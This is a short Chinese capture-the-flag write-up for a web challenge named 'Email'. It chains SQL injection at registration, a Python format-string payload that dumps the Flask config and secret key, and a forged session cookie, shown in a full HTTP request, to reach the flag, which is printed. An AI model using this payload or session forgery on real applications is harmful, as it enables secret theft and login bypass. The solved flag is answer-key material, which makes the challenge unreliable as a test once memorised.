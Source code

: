 # Email

## 思路分析

> 注册账号,登陆后发现提示要成为admin用户,cookie中session是jwt,按照经验是要找到密钥,然后进行替换.用c-jwt-cracker未果.在注册处发现存在SQL注入漏洞,利用脚本跑到了admin密码为h4ck4fun

> 登陆后提示访问flag目录,这个页面只有session中isadmin的值为1时才可以,此时多了一个修改邮箱的功能,mail参数多次尝试,发现存在式化字符串漏洞

```
{user.__class__.__init__.__globals__[current_app].config}
```

> 找到了密钥,然后伪造session,访问flag目录得到flag

## payload

```
GET /flag HTTP/1.1
Host: 61.147.171.105:56869
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://61.147.171.105:56869/user/login/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: commodity_id="2|1:0|10:1683808918|12:commodity_id|8:MTYyNA==|11febe9bb1e0e93ad9a9298f3b09b7d18e5518bfaf0d594587b7139d3b51f4fc"; session=.eJyrVsosTkzJzcxTsjLUUSotTi1SsqpWUihRsooG8iEyUNoBTOol5-cqxdbWAgAK8RKR.ZF5C6Q.zFQA8gXzwlLl-ceLEESuYlmByF4
Connection: close
```

## flag

> flag{d02c4c4cde7ae76252540d116a40f23a}